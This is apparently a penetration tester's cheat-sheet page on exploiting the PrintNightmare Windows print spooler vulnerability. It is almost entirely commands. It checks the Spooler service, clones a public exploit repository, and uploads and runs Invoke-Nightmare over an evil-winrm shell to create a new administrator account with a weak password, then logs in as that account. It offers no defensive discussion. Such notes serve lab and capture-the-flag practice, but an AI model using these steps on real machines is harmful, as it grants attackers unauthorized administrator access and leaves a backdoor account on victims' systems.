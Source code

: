 ```yaml
---
description: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
---
```


# Print Nightmare

### Using evil-winrm and invoke-nightmare to exploit print nightmare

* Check if the Spooler server is working

```powershell
Get-Service -Name Spooler
```

* Git clone the repo into the host machine and change the name

```bash
cd /opt/
git clone https://github.com/calebstewart/CVE-2021-1675
mv CVE-2021-1675 invoke-nightmare
```

* In the evil-winrm shell

```powershell
upload /opt/invoke-nightmare/CVE-2021-1675.ps1
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "brun0" -NewPassword "test"
```

* Login again now with brun0 since he has Administrator Rights

```bash
evil-winrm -i IP -u brun0 -p test
```

